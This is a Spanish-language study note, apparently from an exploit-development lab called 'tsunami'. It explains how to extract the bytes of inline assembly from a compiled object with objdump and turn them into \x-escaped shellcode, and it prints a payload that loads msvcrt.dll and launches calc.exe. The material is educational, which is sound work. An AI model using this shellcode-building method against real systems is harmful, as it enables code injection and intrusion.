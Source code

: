 ```
};
unsigned int asm_obj_len = 9814;
```
^045f11

> [!attention] El texto original de `codigo.hex` mide poco más de 800 líneas.
> Se ha quitado parte del relleno para la representación.

Este código es una traducción literal de todo el contenido del [[tsunami#^ecb45c|código anterior]], pero solo es necesario el contenido de `__asm{}`, por lo que será necesario:
1. Averiguar cuándo empieza el código [[Lenguaje Ensamblador|ensamblador]].
2. Extraer todo ese código y transformarlo a Byte.

### Extraer el código [[Lenguaje Ensamblador|ensamblador]]
Se sabe que `push ebp` -la primera línea del código [[Lenguaje Ensamblador|ensamblador]] (del [[tsunami#^ecb45c|código anterior]])- se traduce como `0x55, 0x8b`, por lo que se busca dicha cadena y se extrae visualizando el contenido del [[tsunami#^045f11|fichero anterior]].

Esas direcciones se pueden obtener a través del comando `objdump` de [[Linux]], a través de la carpeta compartida de [[Vagrant]] de la [[Máquina Virtual|máquina virtual]]. Usando dicho comando se puede observar dichas direcciones y una vez encontradas, filtrarlas en el [[tsunami#^045f11|fichero hexadecimal]] obtenido en la sección anterior.

Una vez filtrado el contenido, se obtiene un resultado parecido al siguiente:

```
                                                      0x55, 0x8b, 0xec,
0x33, 0xff, 0x57, 0x83, 0xec, 0x0c, 0xc6, 0x45, 0xf5, 0x6d, 0xc6, 0x45,
0xf6, 0x73, 0xc6, 0x45, 0xf7, 0x76, 0xc6, 0x45, 0xf8, 0x63, 0xc6, 0x45,
0xf9, 0x72, 0xc6, 0x45, 0xfa, 0x74, 0xc6, 0x45, 0xfb, 0x2e, 0xc6, 0x45,
0xfc, 0x64, 0xc6, 0x45, 0xfd, 0x6c, 0xc6, 0x45, 0xfe, 0x6c, 0x8d, 0x45,
0xf5, 0x50, 0xbb, 0x7b, 0x1d, 0x80, 0x7c, 0xff, 0xd3,
                                                      0x55, 0x8b, 0xec,
0x33, 0xff, 0x57, 0x83, 0xec, 0x08, 0xc6, 0x45, 0xf7, 0x63, 0xc6, 0x45,
0xf8, 0x61, 0xc6, 0x45, 0xf9, 0x6c, 0xc6, 0x45, 0xfa, 0x63, 0xc6, 0x45,
0xfb, 0x2e, 0xc6, 0x45, 0xfc, 0x65, 0xc6, 0x45, 0xfd, 0x78, 0xc6, 0x45,
0xfe, 0x65, 0x8d, 0x45, 0xf7, 0x50, 0xbb, 0xc7, 0x93, 0xc2, 0x77, 0xff,
0xd3
```

Este es el código de la [[Shellcode|shellcode]], pero previamente debe transformarse a Byte.

#### Transformar el código a Byte
1. Se cambian los `0x` por `\x`.
2. Se eliminan los espacios y saltos de línea.

```
                                    \x55\x8b\xec
\x33\xff\x57\x83\xec\x0c\xc6\x45\xf5\x6d\xc6\x45
\xf6\x73\xc6\x45\xf7\x76\xc6\x45\xf8\x63\xc6\x45
\xf9\x72\xc6\x45\xfa\x74\xc6\x45\xfb\x2e\xc6\x45
\xfc\x64\xc6\x45\xfd\x6c\xc6\x45\xfe\x6c\x8d\x45
\xf5\x50\xbb\x7b\x1d\x80\x7c\xff\xd3
                                    \x55\x8b\xec
\x33\xff\x57\x83\xec\x08\xc6\x45\xf7\x63\xc6\x45
\xf8\x61\xc6\x45\xf9\x6c\xc6\x45\xfa\x63\xc6\x45
\xfb\x2e\xc6\x45\xfc\x65\xc6\x45\xfd\x78\xc6\x45
\xfe\x65\x8d\x45\xf7\x50\xbb\xc7\x93\xc2\x77\xff
\xd3
```

